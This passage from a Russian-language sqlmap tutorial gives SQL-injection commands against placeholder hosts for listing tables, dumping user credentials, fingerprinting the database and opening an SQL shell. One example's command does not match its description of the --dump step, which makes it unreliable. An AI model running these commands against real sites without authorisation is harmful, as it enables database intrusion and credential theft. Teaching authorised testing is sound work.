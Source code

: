 Для извлечения данных просто добавьте `--tables`параметр к предыдущей команде.

```
python sqlmap.py -u 'http://mytestsite.com/page.php?id=5' --tables
```

#### Сбор данных

Чтобы получить данные, мы просто расширяем нашу команду. Добавление `-T users`сосредоточится на таблице пользователей, где мы можем получить некоторые учетные данные. Добавление `--dump`скажет SQLmap извлечь все данные из таблицы пользователей, сначала будут перечислены столбцы, а затем данные будут выгружены из столбцов.

```
 python sqlmap.py -u 'http://mytestsite.com/page.php?id=5' --tables
```

#### Определение типа базы данных и пользователя

--banner: Получение информации о баннере базы данных.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --banner
```

#### Пользовательские заголовки:

--headers: Указание пользовательских заголовков HTTP.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --headers="User-Agent: Mozilla/5.0"
```

#### Cookie

--cookie: Указание значений cookie для отправки вместе с запросом.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --cookie="PHPSESSID=abc123"
```

#### Типы баз данных

--dbms: Указание конкретного типа базы данных, например MySQL, PostgreSQL.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --dbms=mysql
```

#### SQL-коды

--sql-shell: Открывает оболочку для выполнения произвольных SQL-запросов.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --sql-shell
```

#### Выбор техник:

--technique: Указывает, какие техники SQL-инъекций использовать (B, E, U, Q, S, T).
